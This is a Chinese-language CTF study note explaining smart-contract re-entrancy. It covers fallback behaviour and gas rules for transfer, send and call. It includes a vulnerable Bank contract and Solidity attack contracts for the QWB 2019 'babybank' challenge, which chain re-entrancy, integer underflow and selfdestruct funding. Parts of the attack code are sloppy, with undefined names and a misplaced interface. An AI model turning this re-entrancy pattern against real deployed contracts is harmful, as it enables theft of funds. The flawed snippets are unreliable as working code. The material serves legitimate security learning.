 ## Blockchain

### Attacks

#### Re-Entrancy

重入攻击是智能合约的经典攻击。

##### 原理

fallback函数是一个特殊的结构，在特定情况下会被触发。

特点：

1. 不被命名
2.  被外部调用，不能被自己合约的函数调用
3.  一个合约至多只有一个fallback函数
4. 会在别的合约调用一个本合约没有的函数调用
5. 当eth被发送给这个合约是，没有calldata同时没有receive函数是被触发，要设置为payable
6.  可以包含自己的逻辑

如果没有足够的Gas，是不足以支持不断重入的。`call.value()`转账给了我们足够的Gas。

`<address>.transfer(uint256 amount)`:
向 地址类型 发送数量为 amount 的 Wei，失败时抛出 **异常**，发送 2300 gas 的矿工费，不可调节。

`<address>.send(uint256 amount)`(bool):
向 地址类型 发送数量为 amount 的 Wei，失败时返回 **false**，发送 2300 gas 的矿工费用，不可调节。

`<address>.call(...)` (bool):
发出低级函数 CALL，失败时返回 false，发送所有可用 gas，可调节。
`.call`函数添加`.value`会附加上代币，形成转账

```solidity
contract Bank {
    mapping(address => uint256) public balanceOf;
    ...
    function withdraw(uint256 amount) public {
        require(balanceOf[msg.sender] >= amount);
        msg.sender.call.value(amount)();
        balanceOf[msg.sender] -= amount;
    }
}
```

当balanceof充足时，就会调用转账功能。这个问题是，先转账再记账，若再次调用fallback（）函数，此时balanceof还未减少就会无限调用，可能导致gas不够用，因此需要限制次数。

```solidity
contract hack{
address instance;
Bank b=Bank(instance);
bool flag=0;
function attack()public{
b.withdraw(1 ether);
}
function () payable{
if(!flag){
flag=1;
b.withdraw(1 ether);
}
}
}
```



##### 题目

###### 【强网杯2019】babybank

```solidity
pragma solidity ^0.4.23;

contract babybank {
    mapping(address => uint) public balance;
    mapping(address => uint) public level;
    address owner;
    uint secret;
    
    //Don't leak your teamtoken plaintext!!! md5(teamtoken).hexdigest() is enough.
    //Gmail is ok. 163 and qq may have some problems.
    event sendflag(string md5ofteamtoken,string b64email); 
    
    
    constructor()public{
        owner = msg.sender;
    }
    
    //pay for flag
    function payforflag(string md5ofteamtoken,string b64email) public{
        require(balance[msg.sender] >= 10000000000);
        balance[msg.sender]=0;
        owner.transfer(address(this).balance);
        emit sendflag(md5ofteamtoken,b64email);
    }
    
    modifier onlyOwner(){
        require(msg.sender == owner);
        _;
    }
    
    //challenge 1 
    function profit() public{
        require(level[msg.sender]==0);
        require(uint(msg.sender) & 0xffff==0xb1b1);
        balance[msg.sender]+=1;
        level[msg.sender]+=1;
    }
    
    //challenge 2
    function set_secret(uint new_secret) public onlyOwner{
        secret=new_secret;
    }
    function guess(uint guess_secret) public{
        require(guess_secret==secret);
        require(level[msg.sender]==1);
        balance[msg.sender]+=1;
        level[msg.sender]+=1;
    }
    
    //challenge 3
    
    function transfer(address to, uint amount) public{
        require(balance[msg.sender] >= amount);
        require(amount==2);
        require(level[msg.sender]==2);
        balance[msg.sender] = 0;
        balance[to] = amount;
    }
    
    function withdraw(uint amount) public{
        require(amount==2);
        require(balance[msg.sender] >= amount);
        msg.sender.call.value(amount*100000000000000)();
        balance[msg.sender] -= amount;
    }
}
```

pay for flag
    function payforflag(string md5ofteamtoken,string b64email) public{
        require(balance[msg.sender] >= 10000000000);
        balance[msg.sender]=0;
        owner.transfer(address(this).balance);
        emit sendflag(md5ofteamtoken,b64email);
    }

当balance超过10000000000是就会触发flag函数。

发现withdraw函数发现重入漏洞 msg.sender.call.value(amount*100000000000000)();，可以配合整数下溢漏洞从而达到balance的要求。

要完成withdraw()函数需要完成三个挑战。

第一个是profit函数

require(level[msg.sender]= =0);
require(uint(msg.sender) & 0xffff==0xb1b1);

首先需要调用者level为0，其次需要调用者的后四位为b1b1，

level原本就是0，而后四位则可以通过网站生成固定账号，[Vanity-ETH | Ethereum vanity address generator](https://vanity-eth.tk/)

，即可绕过，此时balance以及level都为1，此时来到挑战2.

挑战2，需要猜到的与设置的guess相同。serect的值可以在合约的部署中找到。合约部署者的最后一次交易的inputdata桉树选择器前四个字节为函数的签名参数就是部署这传入的参数。

然后就可以调用withdraw函数。

但是由于合约没有任何blance因此需要先进行转账。

可以用selfdestruct函数来进行充值。

攻击合约

```solidity
contract kill{
function kill()payable{
selfdestruct(address(add));
}
}
contract hack{
interface BabybankInterface {
    function withdraw(uint256 amount) external;
    function profit() external;
    function guess(uint256 number) external;
    function transfer(address to, uint256 amount) external;
    function payforflag(string md5ofteamtoken, string b64email) external;
}
address instance;
BankInterface b=BankInterface(instance);
uint flag=0;
function attack()public payable{
b.profit();
b.guess(0x........);
b.withdraw(2);
b.payforflag('123','123');

}
function()external payable{
if(!flag){
flag=1;
b.withdraw(2);
}
}
}
```

